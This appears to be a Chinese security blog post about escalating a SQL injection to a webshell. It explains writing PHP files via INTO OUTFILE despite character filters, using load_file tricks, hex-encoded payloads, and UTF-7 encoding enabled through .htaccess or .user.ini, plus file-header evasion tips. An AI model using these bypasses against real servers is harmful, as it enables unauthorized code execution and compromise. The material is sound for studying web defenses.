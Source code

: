 > 涉及到0day，暂不说明细节，只记录思路。

## 0x00 前言：
- 最近在审一套系统的时候，找到个sqli点
- 该系统搭建安装的时候默认mysql账号为root
- 对于into outfile写文件的条件也全部满足，遂想到用SQL注入写文件的方式来GetShell

## 0x01 问题
因为是用sqli写webshell，payload难免会需要绕过一些针对请求参数的过滤，这里就过滤了`<、>、"`等特殊字符，导致没有办法用类似
`select '<?php phpinfo()?>' into outfile '[webpath]'`的方式写入webshell，其中的尖括号会被html实体化编码，但是怎么能轻言放弃呢？

## 0x02 思路一
在该系统的web目录下有很多php空文件，但是留下了`<?php`，比如根目录下的phpinfo.php内容如下：
```php
<?php 
```
这也是我当时立马相到的思路：通过读取phpinfo.php的内容，得到`<?php`，使用select load_file()，这个方法需要如下条件：
- SQL注入点需要查询结果是两列的，因为`xxx union select load_file('phpinfo.php'),'phpinfo();' into outfile '[webpath]'`
- 需要支持联合查询
- 如果删除了这些毫无意义的空文件就立马shell不了了
随之分享给师傅们，集思广益

## 0x03 思路二
hex编码进行绕过
关于SQL注入中使用hex编码来绕过一些过滤的操作应该ctf会比较常见，当时也是没想起来，姿势用时方恨忘啊，遂决定写下此文。
使用方法如下：`select 0x3c3f70687020706870696e666f28293b3f3e into outfile '[webpath]'`，这样就不存在什么限制了。

## 0x04 思路三
师傅发来[先知一篇文章](https://xz.aliyun.com/t/11337)，其中John 师傅在评论区详细阐述了一种也很棒的方法：UTF-7编码绕过。
总结就是一句话：php的多字节编码并启用UTF-7。例如将<?php phpinfo();?>编码为utf-7，+ADw?php phpinfo()+ADs?+AD4-就能绕过<?检测。
可以通过上传

.htaccess
```
php_flag zend.multibyte 1
php_value zend.script_encoding UTF-7
```
或者

.user.ini
```
zend.multibyte=1
zend.script_encoding=utf-7
```
来开启这个配置。另外该师傅人真好，还讲了一个小tips，原文如下：
```
如果遇到图片文件头检测，`.user.ini`可以不加注释直接打上`GIF89a`然后换行，不会报错。`.htaccess`会报500错误，用#注释掉又无法绕过，
不过`0x00`也是`.htaccess`的注释符，所以可以用`0x00`开头的图片文件头，例如ico `00 00 01 00 01 00 20 20`，这样既能绕过文件头检测，也不会报错。
```
师傅好强，学习。
